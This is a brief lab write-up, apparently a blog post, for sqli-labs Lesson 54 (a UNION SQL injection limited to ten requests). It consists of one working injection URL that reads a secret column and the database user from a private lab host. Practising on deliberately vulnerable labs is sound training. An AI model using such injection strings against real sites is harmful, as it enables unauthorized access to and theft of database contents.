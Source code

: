 ```yaml
---
title: sqli-labs lession-54 GET-Union-变化1-仅允许10次请求
date: 2018-11-21 14:08:44
tags: [sqli-labs]
categories: sql注入
---
```


# sqli-labs lession-54 GET-Union-变化1-仅允许10次请求

---



`http://10.60.17.35:8082/Less-54/index.php?id=-1'+union+select+1,(select secret_GWX7 from challenges.jwzhjxbnsb limit 0,1),user()%23`

